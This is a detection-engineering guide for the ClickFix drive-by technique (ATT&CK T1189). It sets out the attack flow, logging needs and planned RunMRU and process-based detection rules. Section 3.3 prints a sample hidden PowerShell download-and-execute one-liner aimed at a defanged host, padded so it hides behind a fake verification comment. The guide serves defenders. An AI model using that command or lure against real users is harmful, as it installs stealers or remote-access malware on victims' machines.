

# T1189 — Drive-by Compromise (ClickFix)
 
| Field | Value |
|---|---|
| **ATT&CK ID** | T1189 |
| **Tactic** | Initial Access (TA0001) |
| **Related** | T1204.004 (User Execution: Malicious Copy and Paste), T1059.001 (PowerShell), T1218.005 (Mshta) |
| **Platforms** | Windows (primary), macOS and Linux variants exist |
| **Version** | 1.0 — Starter ruleset |
| **Updated** | 2026-07-23 |
 
---
 
## 1. Technique Title
 
**T1189 — Drive-by Compromise, ClickFix variant**
 
The victim visits a web page that shows a fake error message or fake CAPTCHA. The page tells them to "fix" the problem by pressing a few keys. Those keystrokes paste an attacker's command into Windows and run it.
 
---
 
## 2. Introduction
 
ClickFix is social engineering delivered through a browser. There is no exploit and no vulnerability involved. The attacker simply persuades the user to run a command for them.
 
The page displays something that looks routine and mildly annoying — "Verify you are human", "Your browser needs an update", "Failed to load document, run this repair step". It then gives the user three simple instructions:
 
1. Press **Win + R**
2. Press **Ctrl + V**
3. Press **Enter**
What the user does not see is that the page already copied a malicious command onto their clipboard using JavaScript, the moment they clicked the fake CAPTCHA checkbox. Step 2 pastes it into the Windows Run dialog. Step 3 executes it. The command is typically a one-liner that downloads and runs an information stealer or remote access trojan.
 
**Why this technique became so popular is the important part for detection engineering.**
 
Traditional drive-by detection relies on the browser being the parent of whatever ran — `chrome.exe` launching `powershell.exe` is an obvious red flag, and every EDR looks for it. ClickFix breaks that chain deliberately. The browser never launches anything. The user does it themselves, so the command's parent process is `explorer.exe`, which is the same parent as every normal thing a person does on their desktop.
 
The attack also sidesteps a lot of other controls at the same time. There is no malicious file to scan, because nothing is downloaded until the command runs. There is no exploit for a patch to fix. Mark-of-the-Web never applies, because no file came through the browser. Email security is irrelevant, because delivery is through search results or ads.
 
The good news is that the technique leaves behind an unusually clean artefact. Windows records everything typed into the Run dialog in a registry key called `RunMRU`. When the victim pastes and presses Enter, Windows writes the attacker's full command into the registry, in plain text, on the victim's machine. It is close to a written confession, and it is the basis of the first and best rule in this document.
 
---
 
## 3. Attack Flow
 
### 3.1 The Steps
 
| Step | What happens | What you can see in logs |
|---|---|---|
| **1. Lure** | Victim reaches a malicious page via poisoned search results, a malicious ad, or a compromised legitimate site | Proxy or DNS request to a newly registered or low-reputation domain |
| **2. Fake problem** | Page shows a fake CAPTCHA, browser update prompt, or document error | Nothing on the host — this is all inside the browser |
| **3. Clipboard hijack** | Page uses JavaScript to silently copy an attacker command to the clipboard | Nothing — clipboard writes are not logged by Windows |
| **4. User pastes and runs** | Victim presses Win+R, Ctrl+V, Enter | **Command written to the `RunMRU` registry key** ← strongest signal |
| **5. Command executes** | The pasted one-liner runs, usually PowerShell or mshta fetching a remote payload | `explorer.exe` starts `powershell.exe` / `mshta.exe`; command line contains a URL |
| **6. Payload lands** | The real malware is written to a user-writable folder and executed | New `.exe` or `.dll` in `%TEMP%` or `%APPDATA%`, then launched |
| **7. Objective** | Infostealer harvests browser credentials and crypto wallets, or a RAT establishes remote access | Outbound C2 traffic; access to browser credential stores |
 
### 3.2 Flow Diagram
 

 
### 3.3 A Realistic Example
 
What the page tells the user to do:
 
> **Verification failed.** To confirm you are human, press `Windows + R`, then `CTRL + V`, then `Enter`.
 
What is actually on their clipboard:
 
```
powershell -w hidden -c "iwr https://cdn-verify-cf[.]shop/a.txt|iex"    # ✅ I am not a robot - Verification ID: 8814
```
 
The comment on the right is deliberate. It is padded with spaces so that in the narrow Run dialog box the user only sees the reassuring part, while the actual command scrolls out of view to the left. That padding is itself detectable, which is covered in the AR-01 explanation.
 
---
 
## 4. Detection Strategy
 
### 4.1 The Approach
 
The technique has one outstanding detection opportunity and several supporting ones.
 
`RunMRU` is the outstanding one. It captures the attacker's command verbatim, it is written before any payload is fetched, and normal users almost never type anything into the Run dialog that resembles a download command. **AR-01 alone will catch the large majority of ClickFix activity in a typical environment.**
 
The supporting rules exist because ClickFix has variants that skip the Run dialog entirely — some versions tell the user to paste into the File Explorer address bar, into PowerShell directly, or into a terminal opened with Win+X. Those leave different artefacts or none at all, so the remaining rules cover the command itself and the payload that follows.
 
Three rules alert on their own. Two are deliberately broad, too noisy to alert on individually, and are combined in the single correlation rule in Section 6.
 
### 4.2 What You Need Logging
 
| Rule needs | Where it comes from |
|---|---|
| Registry value writes | Sysmon Event ID 13. **Critically: confirm `RunMRU` is not excluded by your Sysmon config** |
| Process creation with parent and command line | Sysmon Event ID 1, or Windows Security 4688 with command-line logging enabled |
| File creation | Sysmon Event ID 11 (supporting only — not required for the core rules) |
 
> **Check this before anything else.** Many popular Sysmon configurations filter registry events aggressively to control volume, and `RunMRU` is not always in the include list. Test it in five seconds: press Win+R, type `notepad`, press Enter, then search your SIEM for a registry event containing `RunMRU`. If nothing appears, AR-01 and AR-02 are dead on arrival and you must fix the config first.
 
### 4.3 Atomic Rules
 
| ID | Rule | Log Source | Level | Alerts on its own? |
|---|---|---|---|---|
| **AR-01** | Suspicious Command Typed into the Run Dialog | `registry_set` | High | Yes |
| **AR-02** | Suspicious Command Typed into Explorer Address Bar | `registry_set` | High | Yes |
| **AR-03** | Download-and-Execute Command Line | `process_creation` | High | Yes |
| **AR-04** | Explorer Launching a Script Interpreter | `process_creation` | Medium | No — correlation input |
| **AR-05** | Program Executed from a User-Writable Folder | `process_creation` | Medium | No — correlation input |
 
**What each one gives you:**
 
- **AR-01** is the flagship rule for this technique. It reads the command straight out of the registry key that records Run dialog history. It fires at the moment of execution, before any payload is downloaded, and it hands the analyst the complete attacker command including the URL. Nothing else in this document comes close to it for value.
- **AR-02** covers the variant where the user is told to paste into the File Explorer address bar instead. That path writes to a different registry key (`TypedPaths`), so AR-01 would miss it entirely. The rule is nearly identical in structure and costs almost nothing to add.
- **AR-03** looks at the command itself rather than how it was launched. This is what catches the variants that leave no registry trace at all — pasting into an already-open PowerShell window, or into a terminal opened with Win+X. It works no matter what the parent process was.
- **AR-04** is a broad safety net: Explorer starting a script interpreter. On its own this is far too common to alert on, because it fires every time an administrator legitimately uses Win+R or double-clicks a script. It becomes useful when paired with what happens next.
- **AR-05** catches the payload actually running from a temporary or user profile folder. Also too noisy alone — a lot of legitimate software genuinely installs and runs from `%APPDATA%`. Its value is in sequence with AR-04.
### 4.4 Correlation Rules
 
One correlation rule is included.
 
| ID | Rule | Combines | Level |
|---|---|---|---|
| **CR-01** | Run Dialog Activity Followed by Payload Execution | AR-04 → AR-05 | High |
 
The justification is specific. AR-01 through AR-03 are strong, but every one of them depends on recognising **suspicious content** — a URL, a known interpreter, a download keyword. Attackers obfuscate that content constantly, and heavily obfuscated or novel commands will slip past all three.
 
AR-04 and AR-05 avoid that problem by looking only at **structure**: something was launched from the desktop shell, and shortly afterwards a program ran from a temporary folder. Neither observation depends on recognising any particular string, so neither can be evaded by obfuscation. The trade-off is that each is individually far too common to alert on. Joining them in order is what makes the structural signal usable, and that join is something no single log event can express.
 
Nothing else here needs correlation. Resist the temptation to add more — the atomic rules carry this technique well, and correlation rules cost considerably more to build, tune, and maintain.
 
---
 
